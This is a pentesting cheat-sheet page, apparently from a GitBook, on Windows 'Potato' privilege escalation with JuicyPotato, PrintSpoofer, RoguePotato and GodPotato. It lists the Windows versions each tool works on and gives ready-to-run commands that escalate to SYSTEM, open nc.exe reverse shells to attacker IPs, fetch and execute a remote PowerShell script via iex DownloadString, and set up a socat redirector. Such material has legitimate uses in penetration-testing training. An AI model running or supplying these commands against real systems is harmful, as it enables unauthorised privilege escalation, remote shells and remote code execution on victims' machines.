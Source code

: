 {% tab title="Juicy-Potato" %}
[JuicyPotato](https://github.com/ohpe/juicy-potato), a sugared version of RottenPotatoNG. It leverages several COM servers identified by this [list of CLSID](http://ohpe.it/juicy-potato/CLSID/)

{% hint style="danger" %}
JuicyPotato **doesn't work** on **Windows Server 2019** and **Windows 10 build 1809 onwards**. However, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer),[RoguePotato](https://github.com/antonioCoco/RoguePotato), [SharpEfsPotato](https://github.com/bugch3ck/SharpEfsPotato) can be used to leverage the same privileges and gain NT AUTHORITY\SYSTEM

Will works on **Windows 7,8,10, Server 2008 R2, Server 2012, Server 2016**
{% endhint %}

```bash
#nc.exe reverse shell
c:\Users\Public>.\JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

#Powershell reverse shell
c:\Users\Public>.\JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
{% endtab %}

{% tab title="PrintSpoofer" %}
[PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0), allow us to abuse Impersonation Privileges on Windows 10 and Server 2019

{% hint style="danger" %}
PrintSpoofer will works on **Win10, Server 2016, Server 2019**
{% endhint %}

```powershell
# -i : interactive
# -c : command to run
c:\Users\Public> .\PrintSpoofer.exe -i -c cmd.exe
c:\Users\Public> .\PrintSpoofer.exe -c "nc.exe IP PORT -e cmd.exe"
```
{% endtab %}

{% tab title="RoguePotato" %}
[RoguePotato](https://github.com/antonioCoco/RoguePotato), is an other tools that allow us to abuse Impersonation Privileges&#x20;

{% hint style="danger" %}
RoguePotato will works on machine **>= Windows 10 1809 & Windows Server 2019**
{% endhint %}

```powershell
# socat redirector for OXID resolving, must use 135
$ socat tcp-listen:135,reuseaddr,fork tcp:KALI_IP:9999
c:\Users\Public> .\RoguePotato.exe -r KALI_IP -e "PATH\nc.exe IP PORT -e cmd.exe" -l 9999
```
{% endtab %}

{% tab title="GodPotato" %}
Based on the history of Potato privilege escalation for 6 years, from the beginning of RottenPotato to the end of JuicyPotatoNG, I discovered a new technology by researching DCOM, which enables privilege escalation in Windows 2012 - Windows 2022, now as long as you have "ImpersonatePrivilege" permission. Then you are "NT AUTHORITY\SYSTEM", usually WEB services and database services have "ImpersonatePrivilege" permissions. - [GodPotato](https://github.com/BeichenDream/GodPotato)
